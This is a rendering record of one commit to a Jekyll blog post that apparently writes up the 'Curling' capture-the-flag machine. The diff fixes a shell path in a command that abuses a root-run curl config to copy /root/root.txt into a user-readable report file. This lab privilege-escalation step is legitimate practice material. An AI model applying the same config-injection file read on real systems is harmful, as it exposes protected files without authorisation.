

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-05-curling.md, in a window 1280 px wide and 900 px high, scrolled down 8768 px. Shown: the part 87-440 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-05-curling.md
+++ b/_posts/2020-08-05-curling.md
@@ -413,7 +413,7 @@ echo 'url = "file:///root/root.txt"' > input
 And when the script run the command would look like this :
 
 ```
-bin/sh -c curl --url file:///root/root.txt -o /home/floris/admin-area/report
+/bin/sh -c curl --url file:///root/root.txt -o /home/floris/admin-area/report
 ```
 
 Just wait that the script run, and the root.txt flag is in the report file !
````
